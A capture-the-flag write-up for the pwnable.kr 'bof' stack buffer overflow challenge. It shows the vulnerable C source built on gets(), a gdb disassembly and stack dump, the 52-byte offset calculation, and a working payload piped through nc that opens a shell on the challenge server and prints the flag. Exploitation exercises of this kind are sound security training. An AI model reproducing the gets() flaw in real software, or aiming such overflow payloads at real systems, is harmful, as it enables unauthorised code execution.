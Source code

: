 # bof

## Description

```Text
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```

## Analysis

```Shell
root@ubuntu:/home/xie/delete_any_time# ls -lh
total 12K
-rw-r--r-- 1 root root 7.2K May 16  2019 bof
-rw-r--r-- 1 root root  308 May 16  2019 bof.c
root@ubuntu:/home/xie/delete_any_time#
root@ubuntu:/home/xie/delete_any_time#
root@ubuntu:/home/xie/delete_any_time#file bof
bof: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ed643dfe8d026b7238d3033b0d0bcc499504f273, not stripped
root@ubuntu:/home/xie/delete_any_time#
```

With an executable file, let’s take a look at the source first:

```C
// bof.c

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");

    // Overflow can be constructed through gets()
	gets(overflowme);	// smash me!

	if(key == 0xcafebabe){
        // It will give you a shell permission
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Basically the `main()` just calls the function `func()` and give `key` the value of `0xdeadbeef`.

So we need to make `key` equal to `0xcafebabe` instead of `0xdeadbeef` to make it spawn a shell. We control `overflowme` but we don’t control `key`. If we can cause a buffer overflow we will be able to overwrite `key`, and obviously `overflowme` is vulnerable.

```Shell
root@pwn:/ctf/work# chmod +x bof
root@pwn:/ctf/work# gdb bof
...
Reading symbols from bof...
(No debugging symbols found in bof)
pwndbg> b func
Breakpoint 1 at 0x632
pwndbg> run
Starting program: /ctf/work/bof
...
pwndbg> disassemble func
Dump of assembler code for function func:
   0x5664262c <+0>:	push   ebp
   0x5664262d <+1>:	mov    ebp,esp
   0x5664262f <+3>:	sub    esp,0x48
=> 0x56642632 <+6>:	mov    eax,gs:0x14
   0x56642638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x5664263b <+15>:	xor    eax,eax
   0x5664263d <+17>:	mov    DWORD PTR [esp],0x5664278c
   0x56642644 <+24>:	call   0xf7ddccd0 <__GI__IO_puts>
   0x56642649 <+29>:	lea    eax,[ebp-0x2c]
   0x5664264c <+32>:	mov    DWORD PTR [esp],eax
   0x5664264f <+35>:	call   0xf7ddc1b0 <_IO_gets>
   0x56642654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5664265b <+47>:	jne    0x5664266b <func+63>
   0x5664265d <+49>:	mov    DWORD PTR [esp],0x5664279b
   0x56642664 <+56>:	call   0xf7db0830 <__libc_system>
   0x56642669 <+61>:	jmp    0x56642677 <func+75>
   0x5664266b <+63>:	mov    DWORD PTR [esp],0x566427a3
   0x56642672 <+70>:	call   0xf7ddccd0 <__GI__IO_puts>
   0x56642677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x5664267a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x56642681 <+85>:	je     0x56642688 <func+92>
   0x56642683 <+87>:	call   0xf7e834e0 <__stack_chk_fail>
   0x56642688 <+92>:	leave
   0x56642689 <+93>:	ret
End of assembler dump.
pwndbg>
```

We can break at `0x56642654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe` after giving a string of `"AAAAAAAAAAAAAAAAAAAA"` to `overflowme`. Then print the stack:

```Shell
   0x565ae63d <func+17>    mov    dword ptr [esp], 0x565ae78c
   0x565ae644 <func+24>    call   puts <puts>

   0x565ae649 <func+29>    lea    eax, [ebp - 0x2c]
   0x565ae64c <func+32>    mov    dword ptr [esp], eax
   0x565ae64f <func+35>    call   gets <gets>

 ► 0x565ae654 <func+40>    cmp    dword ptr [ebp + 8], 0xcafebabe
   0x565ae65b <func+47>    jne    func+63 <func+63>
    ↓
   0x565ae66b <func+63>    mov    dword ptr [esp], 0x565ae7a3
   0x565ae672 <func+70>    call   puts <puts>

   0x565ae677 <func+75>    mov    eax, dword ptr [ebp - 0xc]
   0x565ae67a <func+78>    xor    eax, dword ptr gs:[0x14]
...
pwndbg> x /50wx $esp
0xff81b330:	0xff81b34c	0x00000534	0x0000007e	0xf7eefa80
0xff81b340:	0x00000000	0xf7ef1000	0xf7f307e0	0x41414141
0xff81b350:	0x41414141	0x41414141	0x41414141	0x41414141
0xff81b360:	0x41414141	0x41414141	0x41414141	0x41414141
0xff81b370:	0x41414141	0xf7004141	0xff81b398	0x565ae69f
0xff81b380:	0xdeadbeef	0x00000000	0x565ae6b9	0x00000000
0xff81b390:	0xf7ef1000	0xf7ef1000	0x00000000	0xf7d24ee5
0xff81b3a0:	0x00000001	0xff81b434	0xff81b43c	0xff81b3c4
0xff81b3b0:	0xf7ef1000	0x00000000	0xff81b418	0x00000000
0xff81b3c0:	0xf7f31000	0x00000000	0xf7ef1000	0xf7ef1000
0xff81b3d0:	0x00000000	0x67d78147	0xc02d8757	0x00000000
0xff81b3e0:	0x00000000	0x00000000	0x00000001	0x565ae530
0xff81b3f0:	0x00000000	0xf7f1bb24
```

As seen above, if we give the program exactly `52` chars then `0xcafebabe` and eventually `0xdeadbeef` will be overwritten.

Another way to directly find the offset value `52`:

As can be seen from the line `0x56642654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe`, `0xdeadbeef` is at `$ebp+8`.

But how do we get the address of `overflowme`? The line `0x00000649 <+29>:    lea    -0x2c(%ebp),%eax` makes a help.

```Shell
pwndbg> x $ebp + 8
0xff81b380:	0xdeadbeef
pwndbg> x $ebp - 0x2c
0xff81b34c:	0x41414141
pwndbg> x $ebp - 0x2d
0xff81b34b:	0x414141f7
```

Also, we get `0xff81b380-0xff81b34c=52`.

```Shell
$ (python -c "print 'A'*52+'\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
```

## Solution

Write-up: [exploit.py](exploit.py).

```Shell
$ python3 pwnable.kr/bof/exploit.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls -al
$ ls -al
total 16780
drwxr-x---   3 root bof      4096 Oct 23  2016 .
drwxr-xr-x 115 root root     4096 Dec 22 08:10 ..
d---------   2 root root     4096 Jun 12  2014 .bash_history
-r-xr-x---   1 root bof      7348 Sep 12  2016 bof
-rw-r--r--   1 root root      308 Oct 23  2016 bof.c
-r--r-----   1 root bof        32 Jun 11  2014 flag
-rw-------   1 root root 17145438 Jun 12 10:26 log
-rw-r--r--   1 root root        0 Oct 23  2016 log2
-rwx------   1 root root      760 Sep 11  2014 super.pl
$ cat flag
daddy, I just pwned a buFFer :)
$
```

## Point

### GDB Tools

 There is a simple [introduction](https://linuxtools-rst.readthedocs.io/zh_CN/latest/tool/gdb.html) and more details can be seen in [GDB Manuals](https://www.gnu.org/software/gdb/documentation/).